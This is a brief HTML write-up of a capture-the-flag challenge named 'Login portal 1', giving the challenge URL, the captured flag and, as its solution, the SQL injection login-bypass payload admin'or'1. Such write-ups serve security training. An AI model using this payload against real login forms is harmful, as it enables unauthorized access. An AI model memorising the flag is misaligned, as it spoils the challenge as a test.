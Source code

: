 <h1>Login portal 1</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10003/</p>
<h3>Solution</h3>

<p>Payload : <b>admin'or'1</b></p>

<h3>Flag</h3>
<pre>
FLAG-4f885o1dal0q1huj6eaxuatcvn
</pre>
